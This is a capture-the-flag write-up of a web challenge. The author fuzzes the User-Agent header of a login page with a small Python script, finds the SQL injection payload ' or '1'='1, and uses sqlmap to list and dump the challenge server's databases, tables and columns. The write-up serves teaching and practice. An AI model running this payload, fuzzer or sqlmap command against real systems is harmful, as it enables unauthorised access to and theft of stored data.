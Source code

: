 # Santa's No Password Login System (Web)

Hi CTF player. If you have any questions about the writeup or challenge. Submit a issue and I will try to help you understand.

Also I might be wrong on some things. Enjoy :)

(P.S Check out my [CTF cheat sheet](https://github.com/flawwan/CTF-Candy))

![alt text](1.png "Chall")

The website looks like this:

![alt text](2.png "Chall")

Nothing interesting in the source of the website.

![alt text](3.png "Chall")

With this information I am certain we should either inject stuff in the Referer header or the user agent header.

I tried fuzzing the Referer with common user agents but no luck there. Moving on to the user agent header.

First I wrote my own fuzz tool to target the user-agent header. No fun in using ZAP:p.

```
import requests

def spoof(payload):
	headers = {
		'User-agent': "%s" %  payload
	}
	r = requests.get("http://199.247.6.180:12003", headers=headers)
	if "Access Denied" in r.text:
		print "[n] Failed, %s" % payload
		return False
	else:
		print "[y] Success, %s " % payload
		print r.text
		return True


lines = [line.rstrip('\n') for line in open('quick_fuzz.txt')]
for line in lines:
	try:
		if spoof(line):
			break
	except:
		pass
```

After a few seconds the program stopped and said:

```
[y] Success, ' or '1'='1
```

Now it says welcome instead of access denied. This means we have a sql injection.

Let's verify it with ZAP.

![alt text](5.png "Chall")

![alt text](4.png "Chall")

Cool. Let's fire up `sqlmap` and dump the tables.

### Using SQLmap to target User-Agent.

```
$ sqlmap -u "http://199.247.6.180:12003/" --level 3 --random-agent --dbs
```

* This will use a random user agent as the sqlmap user agent was blocked by the server.
* level 3 is used to target the Referer and user-agent header.

Running the script we can speed things up by pressing [CTRL-C] as sqlmap will first try to exploit the Referer header. We know the sqli is in the user-agent field. Now press [n] for next parameter which will be our user-agent.

![alt text](6.png "Chall")

Cool we have the databases for the mysql database.

Now we can dump the tables of db.

![alt text](7.png "Chall")

And then we dump the columns of the uas table.

![alt text](8.png "Chall")

And finally we dump the content of the uas table.

![alt text](9.png "Chall")
